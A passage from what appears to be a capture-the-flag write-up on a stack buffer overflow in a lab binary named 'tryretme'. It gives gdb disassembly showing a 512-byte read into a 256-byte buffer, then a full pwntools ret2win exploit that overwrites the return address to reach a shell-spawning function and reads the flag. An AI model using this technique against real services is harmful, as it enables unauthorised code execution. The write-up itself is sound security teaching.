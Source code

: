 > This time, the elements in the array are `char *` (char pointers), each of which is 8 bytes, rather than `char`, which is 1 byte. Therefore, the buffer size is `0x20 * 8 = 256 (0x100)` bytes.
{: .prompt-tip }

We can also see this as such in the function disassembly:

```console
$ gdb -batch ./materials-TryPwnMeOne/TryRetMe/tryretme -ex 'disassemble vuln'
...
   0x000000000040120f <+27>:    lea    rax,[rbp-0x100]
   0x0000000000401216 <+34>:    mov    edx,0x200
   0x000000000040121b <+39>:    mov    rsi,rax
   0x000000000040121e <+42>:    mov    edi,0x0
   0x0000000000401223 <+47>:    call   0x401090 <read@plt>

```

After that, it reads 512 bytes (`0x200`) into the buffer, which exceeds the allocated buffer size.

```c
read(0, buf, 0x200);
```

This time, there are no variables to overwrite; instead, we have the `win` function, which spawns a shell.

To exploit this, we will manipulate the `return address`, which is located on the stack immediately after the `RBP`. The `return address` is a pointer that indicates where the program should resume execution after a function call. By overwriting this address with the address of the `win` function, we ensure that, upon completion of the `vuln` function, the program will continue execution from the `win` function.

We can accomplish this as follows:

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF(
    "./materials-TryPwnMeOne/TryRetMe/tryretme", checksec=False
)

r = remote("10.10.74.205", 9006)

rop = ROP(binary)
ret = rop.find_gadget(["ret"])[0]
win_function_address = binary.symbols["win"]

payload = b"A" * 256                        # offset to the RBP
payload += b"B" * 8                         # overwrite the RBP
payload += p64(ret)                         # overwrite the return address with the ret instruction for stack allignment
payload += p64(win_function_address)        # address of the win function

r.recvuntil(b"Return to where? : \n")
r.sendline(payload)
r.recvuntil(b"ok, let's go!\n\n")
# r.interactive()                           # uncomment for an interactive shell
r.sendline(b"cat flag.txt")
print(r.recvline().decode())
r.close()
```

